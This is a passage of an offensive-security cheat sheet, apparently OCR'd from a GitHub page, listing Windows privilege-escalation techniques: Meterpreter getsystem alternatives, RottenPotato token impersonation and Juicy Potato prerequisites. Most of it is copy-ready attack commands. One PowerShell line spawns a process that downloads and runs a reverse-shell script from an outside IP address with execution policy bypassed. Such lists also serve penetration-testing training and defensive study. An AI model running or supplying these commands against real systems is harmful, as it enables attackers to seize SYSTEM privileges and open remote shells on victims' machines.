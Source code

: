 
### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato (Token Impersonation)

Binary available at : https://github.com/foxglovesec/RottenPotato
Binary available at : https://github.com/breenmachine/RottenPotatoNG

```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


### Juicy Potato (abusing the golden privileges)

Binary available at : https://github.com/ohpe/juicy-potato/releases    
:warning: Juicy Potato doesn't work on Windows Server 2019 and Windows 10 1809. 

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

    * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 
